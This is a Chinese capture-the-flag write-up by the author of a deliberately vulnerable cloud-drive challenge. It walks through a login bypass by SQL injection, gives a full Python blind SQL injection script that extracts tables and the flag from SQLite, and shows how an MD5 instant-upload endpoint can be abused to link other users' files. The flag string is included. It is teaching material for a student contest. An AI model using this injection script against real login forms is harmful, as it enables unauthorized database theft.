 # 漏洞百出的FAST网盘！

## 缘起

临近新生赛，koali绞尽脑汁都没想到要出什么题，直到想起某一次打比赛遇到的网盘，一拍脑袋决定也出一个网盘。那段时间刚好pyy在搞amis，恳切地希望koali用一下他的amis_helper，并为这个网盘提出了建设性的意见，于是决定超前试用一下。

考虑到是作为新生赛题，在希望大伙学到一点东西的同时，又不能太为难大家，于是从最简单的万能密码起手，再到没有过滤的SQL盲注；最后一问的秒传思路比较清奇，不太容易想到（别打我，打pyy），不过看完wp应该会有一种恍然大悟的感觉(●'◡'●)确信！



## 预期解

### 什么什么，万能密码？

如题，直接通过万能密码登录

![image-20230513204620869](image-20230513204620869.png)

因为背后是个sqlite，默认注释采用`--`的形式，输`#`会给你报错。

### babySQL!

简单的SQl盲注。后来给了Hint说flag在数据库里，所以做法是从用户名密码这个位置注入，把数据库里面的东西都注出来就好辣，下面附上盲注脚本：

```
import requests

cookies = {}
headers = {}
json_data = {
    'passwd': 'a',
    'uname': 'a',
}
payload = ""
url = ""

def crack_sql():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 128
        mid = (low + high) // 2
        while (low < high):
            # payload = "1' or substr((select hex(group_concat(name)) from sqlite_master where type = 'table'),{0},1)>'{1}'/*" . format ( i , chr ( mid )) # 注表名
            # payload = "1' or substr((select hex(group_concat(sql)) from sqlite_master where name = 'flag2'),{0},1)>'{1}'/*" . format ( i , chr ( mid )) # 注出创建时的sql语句，也就是注出列
            payload = "1' or substr((select hex(group_concat(flag)) from flag2),{0},1)>'{1}'/*" . format(i, chr(mid)) # 注出flag
            json_data = {
                "uname": payload,
                "passwd": 'pyy'
            }
            res = requests.post(url,cookies=cookies, headers=headers, json=json_data, verify=False)

            if '登录成功' in res.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
        if (mid == 32 or mid == 127):
            break
        flag = flag + chr(mid)
        print(flag)

    print('\n' + bytes .fromhex(flag) . decode('utf-8'))


if __name__ == "__main__":
    crack_sql()
```

### 好快的传

这一问需要在注出数据库的基础上才能做，并且可能需要亿点点的脑洞以及大胆的尝试。

数据库里的表有：`amis,flag2,user,file,user_file`，可以看到`file`表里面有两个字段：

```sql
sql.db> select * from file;
+----+-----------+----------------------------------+
| id | filename  | fileMD5                          |
+----+-----------+----------------------------------+
| 1  | flag3.txt | 760b38b5e21803df4e72bf0eb443006b |
| 2  | flag1.txt | dfb076dfb501134d56e51538e5360a1e |
+----+-----------+----------------------------------+
```

你会发现数据库里面存了文件的MD5。

上传文件的时候抓个包，会发现首先过了一层秒传的校验然后再进入正常的upload接口。虽然站在做题的角度不知道这个秒传有什么用，但是你会看到它传了文件的md5和文件名进去。

![image-20230513213037762](image-20230513213037762.png)

![image-20230513213043347](image-20230513213043347.png)

在通过万能密码登陆的这个账号里，有一个flag1，我们可以尝试通过秒传接口上传一个文件名不同但md5相同的文件，查看网盘的情况。这里的msg返回是提示你秒传成功

![image-20230513221410745](image-20230513221410745.png)



去网盘查看，发现多出了一个文件flag111.txt，内容是flag1。

![image-20230513222932863](image-20230513222932863.png)

到这里可以猜测在上传相同md5文件的时候，不会经过upload，而是直接通过秒传将文件链接到当前用户目录下，导致文件泄露。

所以同样，我们可以考虑将flag3的md5发给秒传，然后在网盘里下载下来就好辣~

![image-20230513233810085](image-20230513233810085.png)

如果事先知道[秒传](https://www.helloweba.net/php/636.html),应该一眼就看出来了，如果不知道的话...只能靠脑洞和尝试了。

```
r00t2023{异世相遇,尽享美味!}
```

## 写在最后

虽然感觉题出完的时候思路非常妙，但写wp再复现一遍的时候发现这题有bug，我们没有给每个用户开独立的环境，所相当于如果有一个人拿到flag3链接过来，所有的人都拿到flag了...

（还好没人做出来ヾ(•ω•`)o

源码漏洞百出，大家将就着看。koali的代码水平并不好，还请多多包涵捏~
